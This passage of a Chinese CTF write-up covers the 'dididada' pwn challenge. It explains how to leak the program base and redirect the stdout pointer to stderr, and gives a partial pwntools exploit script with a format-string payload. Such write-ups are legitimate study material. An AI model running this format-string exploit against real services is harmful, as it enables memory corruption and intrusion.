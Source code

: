 ```
    0x558030d74000     0x558030d75000 r--p     1000 1000   /mnt/hgfs/shared/challenge/dididada/dididada
    0x558030d75000     0x558030d76000 rw-p     1000 2000   /mnt/hgfs/shared/challenge/dididada/dididada

```

根据调试可以看到，本来`printf`是取`stdout`的，输出流嘛，但是如果我们把`.bss`出的`stdout`指针改为指向`stderr`，那`close(1)`，是不是就没问啥问题了，反正`stderr`的`fileno`是2，而且`stdout`和`stderr`地址很接近：

```
pwndbg> p stdout
$1 = (struct _IO_FILE *) 0x7f8f4b434620 <_IO_2_1_stdout_>
pwndbg> p stderr
$2 = (struct _IO_FILE *) 0x7f8f4b434540 <_IO_2_1_stderr_>
```

综上，得到思路为：

- ask_time泄露程序基地址
- leak泄露`stderr`的第二个字节，（为了消除那1/16的概率
- fmt_attack，把secret第一个字节改为`\x00`，在把bss段里的`stdout`改为指向`stderr`

最终exp为：

```c
# usage: python exp.py REMOTE=x.x.x.x
from pwn import *

context.arch='amd64'

def debug(addr,PIE=True):
	if PIE:
		text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
		gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
	else:
		gdb.attach(p,"b *{}".format(hex(addr)))

def cmd(command):
	p.recvuntil(">>")
	p.sendline(str(command))

def main(host,port=16253):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./dididada")
		# gdb.attach(p)
		debug(0x000000000000ECC)
	p.recvuntil("me the time:")
	p.send("+\n+\n+\n")
	p.recvuntil(":")
	elf_base = int(p.recvuntil(":")[:-1]) - 0xbd5
	info("elf : " + hex(elf_base))
	#leak stdout
	cmd(1)
	p.send(p64(elf_base+0x000000000202041))
	stderr = (ord(p.recv(1))<<8)|0x40	
	#fmt attack
	cmd(2)
	payload = "%11$hn%{}c%12$hn".format(stderr)
	payload = payload.ljust(0x18,"+")+p64(elf_base+0x000000000202060)
	payload += p64(elf_base+0x202020)

	p.send(payload)
```